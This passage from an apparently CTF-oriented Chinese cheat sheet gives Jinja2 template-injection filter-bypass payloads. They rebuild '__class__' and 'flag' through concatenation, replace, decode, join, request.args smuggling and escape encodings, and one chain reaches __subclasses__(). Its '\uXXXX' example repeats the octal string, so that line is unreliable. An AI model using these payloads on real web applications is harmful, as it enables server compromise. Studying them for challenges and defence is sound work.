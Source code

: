 ```python
'__clas'+'s__'
'__clas'~'s__'
```

#### 字符替换

用|replace来替换关键字

```python
{{'fl4g'|replace('4','a')}} #flag
```

#### 进行decode解编码绕过

```python
#base64 decode解编码
''['X19jbGFzc19f'.decode('base64')] #''.__class__
#hex decode解编码
''['5f5f636c6173735f5f'.decode('hex')]#''.__class__
#rot13 decode解编码
''['__pynff__'.decode('rot13')]#''.__class__

```

#### 利用|string转化字符拼接绕过

利用`|string`会对象转为字符串的特性。将一些内置对象转为字符串来拼接绕过。

```python
{{(x|select|string)[24]~(x|select|string)[24]~(x|select|string)[15]~(x|select|string)[20]~(x|select|string)[6]~(x|select|string)[18]~(x|select|string)[18]~(x|select|string)[24]~(x|select|string)[24]}}#__class__
```

#### 利用|join来提取

```python
{{  ['f','l','a','g']|join()    }}
```

#### 利用request.args，request.values进行传参

```python
{{""[request.args.class][request.args.x1][request.args.x2][request.args.x3]()[40]}}?class=__class__&x1=__base__&x2=__base__&x3=__subclasses__
#若’.’也被过滤可以用’[]’套娃方式代替
{{""[request['args']['c']]}}?c=__class__

```

#### 利用模板渲染编码绕过：（部分新版本）

```python
#16进制（\xXX）绕过。
''['\x5F\x5F\x63\x6C\x61\x73\x73\x5F\x5F']  #''.__class__
#8进制（\OOO）绕过。
''['\137\137\143\154\141\163\163\137\137']  #''.__class__
#unicode（\uXXXXor\UXXXXXXXX）绕过。
#\uXXXX:
    ''['\137\137\143\154\141\163\163\137\137']  #''.__class__
#\UXXXXXXXX:
    ''['\U0000005F\U0000005F\U00000063\U0000006C\U00000061\U00000073\U00000073\U0000005F\U0000005F']  #''.__class__

```
